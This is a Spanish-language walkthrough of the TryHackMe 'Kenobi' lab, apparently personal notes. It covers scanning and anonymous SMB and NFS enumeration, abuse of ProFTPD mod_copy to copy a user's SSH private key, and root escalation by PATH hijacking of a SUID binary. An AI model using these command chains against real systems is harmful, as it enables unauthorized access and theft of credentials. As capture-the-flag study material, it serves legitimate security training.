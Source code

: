 https://tryhackme.com/r/room/kenobi
# Fase de reconocimiento
## Buscar puertos abiertos
```
nmap -sS -p- --open --min-rate=5000 -T5 -vvv -Pn -n 10.10.70.164 -oG allPorts
```
![[Pasted image 20240428014336.png]]
## Reconocimiento de servicios
```
nmap -sCV -p21,22,80,111,139,445,2049,37351,42033,54489,59577 10.10.70.164 -oN targeted
```
![[Pasted image 20240428014619.png]]

## SAMBA
Nos conectamos
```
smbclient //10.10.70.164/anonymous
```
Encontramos un log.txt con información sobre el FTP
```
smb:> get log.txt
```

![[Pasted image 20240428022950.png]]
## Comprobar el RPC
En nuesttro caso es un network file system
```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.70.164
```
![[Pasted image 20240428023330.png]]
## FTP
El FTP es proftpd version 1.3.5
```
searchsploit proftpd
```
![[Pasted image 20240428023534.png]]
Podemos observar que es vulnerable a mod_copy por lo que podemos copiar y pegar ficheros del sistema donde queramos.

# Fase de explotación
## Copiar la clave privada
Vemos la clave privada donde se guarda en el log.txt
Nos conectamos al ProFTPD
```
nc 10.10.70.164
```
```
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```
![[Pasted image 20240428024023.png]]

## Montar /var del network file system
```
mkdir /mnt/kenobi
```
```
mount 10.10.70.164:/var /mnt/kenobi
```
```
cd /mnt/kenobi/tmp
```
Copiamos la clave privada
Nos conectamos por SSH al servidor
```
ssh kenobi@10.10.70.164 -i id_rsa
```
[-] ==pwned!==

# Privilege Escalation
## Privilege Escalation via SUID
1. Primero buscamos archivos donde tenga permisos
```
find / -perm-u=s -type f 2>/dev/null
```
2. Encontramos un /usr/bin/menu
3. Vemos que ejecuta comandos como root
4. Comprobamos que comandos utiliza
```
strings /usr/bin/menu
```
![[Pasted image 20240428030345.png]]
Podemos observar que ejecuta los comandos sin ruta absoluta 
5. En el home del usuario creamos un archivo llamado curl que ejecute el comando /bin/bash
```
echo /bin/bash > curl
```
7. Lo añadimos a el PATH
```
export PATH=/home/kenobi:$PATH
```
9. Ejecutamos en el menu la opción que ejecuta el curl
[+] ==pwned!==
